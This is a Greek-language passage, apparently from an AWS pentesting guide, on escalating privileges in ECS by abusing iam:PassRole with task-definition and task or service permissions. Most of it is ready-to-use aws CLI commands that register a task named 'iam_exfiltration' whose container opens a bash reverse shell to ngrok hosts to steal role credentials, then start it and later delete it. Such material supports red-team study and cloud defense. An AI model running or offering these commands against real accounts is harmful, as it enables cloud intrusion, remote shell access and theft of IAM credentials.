 ### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Ακριβώς όπως στο προηγούμενο παράδειγμα, ένας επιτιθέμενος που εκμεταλλεύεται τα δικαιώματα **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** στο ECS μπορεί να **δημιουργήσει μια νέα ορισμό εργασίας** με ένα **κακόβουλο κοντέινερ** που κλέβει τα διαπιστευτήρια μεταδεδομένων και **να το εκτελέσει**.\
Ωστόσο, σε αυτή την περίπτωση, χρειάζεται να υπάρχει μια παρουσία κοντέινερ για να εκτελέσει την κακόβουλη ορισμό εργασίας.
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
--container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιονδήποτε ρόλο ECS.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

Ακριβώς όπως στο προηγούμενο παράδειγμα, ένας επιτιθέμενος που εκμεταλλεύεται τα **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** ή **`ecs:CreateService`** δικαιώματα στο ECS μπορεί να **δημιουργήσει μια νέα ορισμό εργασίας** με ένα **κακόβουλο κοντέινερ** που κλέβει τα διαπιστευτήρια μεταδεδομένων και **να το εκτελέσει δημιουργώντας μια νέα υπηρεσία με τουλάχιστον 1 εργασία σε εκτέλεση.**
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn  "$ECS_ROLE_ARN" \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
--task-definition iam_exfiltration \
--desired-count 1 \
--cluster "$CLUSTER_ARN" \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
--service <SERVICE NAME> \
--task-definition <NEW TASK DEFINITION NAME>
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιοδήποτε ρόλο ECS.
